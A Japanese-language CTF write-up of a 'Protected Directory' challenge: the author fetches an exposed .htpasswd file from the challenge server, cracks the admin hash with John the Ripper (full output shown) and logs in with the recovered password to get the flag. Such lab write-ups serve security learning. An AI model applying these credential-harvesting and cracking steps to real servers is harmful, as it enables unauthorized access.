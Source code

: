 # Protected Directory

Find the flag in the protected directory.
http://167.71.246.232/
---

下記にアクセスするとBasic認証を求められる
> http://167.71.246.232:8080/admin/

下記にアクセスするとadminのパスワードがある
> http://167.71.246.232/admin/.htpasswd  
> admin:$apr1$1U8G15kK$tr9xPqBn68moYoH4atbg20

ハッシュ化してあるので復号化をする必要がある
パスワードクラッカーのJohn the Ripperというツールを使う

~~~
$ john htpasswd.txt 
Loaded 1 password hash (md5crypt [MD5 32/64 X2])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:13 3/3 0g/s 20353p/s 20353c/s 20353C/s 021684..021683
0g 0:00:00:15 3/3 0g/s 20364p/s 20364c/s 20364C/s barcide..barcidy
0g 0:00:00:17 3/3 0g/s 20396p/s 20396c/s 20396C/s abric..abrat
0g 0:00:00:22 3/3 0g/s 20439p/s 20439c/s 20439C/s bermero..bermena
0g 0:00:00:28 3/3 0g/s 20480p/s 20480c/s 20480C/s jasmot..jasmet
0g 0:00:00:29 3/3 0g/s 20444p/s 20444c/s 20444C/s kusto..kust1
0g 0:00:00:30 3/3 0g/s 20448p/s 20448c/s 20448C/s 057747..057745
0g 0:00:00:31 3/3 0g/s 20450p/s 20450c/s 20450C/s 181123..181121
0g 0:00:00:32 3/3 0g/s 20455p/s 20455c/s 20455C/s 064322..064326
0g 0:00:00:33 3/3 0g/s 20460p/s 20460c/s 20460C/s ciahoe..ciahor
0g 0:00:00:34 3/3 0g/s 20459p/s 20459c/s 20459C/s boremma..boremmm
0g 0:00:00:35 3/3 0g/s 20468p/s 20468c/s 20468C/s 214515..214512
0g 0:00:00:37 3/3 0g/s 20483p/s 20483c/s 20483C/s lamyl..lamyn
0g 0:00:00:38 3/3 0g/s 20485p/s 20485c/s 20485C/s stumn1..stumns
0g 0:00:00:39 3/3 0g/s 20489p/s 20489c/s 20489C/s bront1..bronti
0g 0:00:00:40 3/3 0g/s 20496p/s 20496c/s 20496C/s amtpi..amtpq
0g 0:00:00:41 3/3 0g/s 20501p/s 20501c/s 20501C/s anggota..anggote
0g 0:00:00:42 3/3 0g/s 20505p/s 20505c/s 20505C/s magsy6..mags99
0g 0:00:00:43 3/3 0g/s 20509p/s 20509c/s 20509C/s bol103..bol102
0g 0:00:00:44 3/3 0g/s 20517p/s 20517c/s 20517C/s 216763..216764
0g 0:00:00:45 3/3 0g/s 20516p/s 20516c/s 20516C/s 147129..147146
0g 0:00:00:46 3/3 0g/s 20523p/s 20523c/s 20523C/s 040338..040361
0g 0:00:00:47 3/3 0g/s 20530p/s 20530c/s 20530C/s jm0752..jm0748
alesh16          (admin)
1g 0:00:00:50 3/3 0.01979g/s 20542p/s 20542c/s 20542C/s alesh16..alesh09
Use the "--show" option to display all of the cracked passwords reliably
Session completed

alesh16          (admin)
~~~

ログイン
> admin/alesh16  

![aa](https://github.com/xn16h7/CTF/blob/master/Tenable%20CTF%202021/img/%E2%91%A7.png)

## flag{cracked_the_password} 
